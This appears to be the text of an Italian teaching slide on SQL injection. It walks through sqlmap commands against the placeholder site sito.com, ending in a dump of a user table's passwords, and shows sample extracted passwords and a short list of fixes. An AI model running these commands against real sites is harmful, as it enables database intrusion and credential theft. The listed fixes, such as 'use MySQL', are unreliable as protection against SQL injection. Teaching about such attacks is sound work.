

# Documentazione e Report
Esempio di output dell’attacco:
Possibili soluzioni:

1) Abilitare firewall
2) Limitare privilegi
3) Usare MySQL
Tipo di vulnerabilità:

Iniezione SQL:
Comune
Facile da eseguire
Altamente dannoso
| password |
| --- |
| Admin000 |
| Pass1234? |
| Marco332 |
| zzzzzzzZ1! |
Ricognizione: controllo se il sito è vulnerabbile
Sqlmap –u «http://sito.com/login.php?id=1» --dbs

Scansione: cerchiamo ciò che ci interessa
Sqlmap –u «http://sito.com/login.php?id=1» -D data --tables

exploit: usiamo questa vulnerabilità per estrarre delle password
Sqlmap –u «http://sito.com/login.php?id=1»

esfiltrazione: estraiamo le password dal database
Sqlmap –u «http://sito.com/login.php?id=1» -D data –T user –C password --dump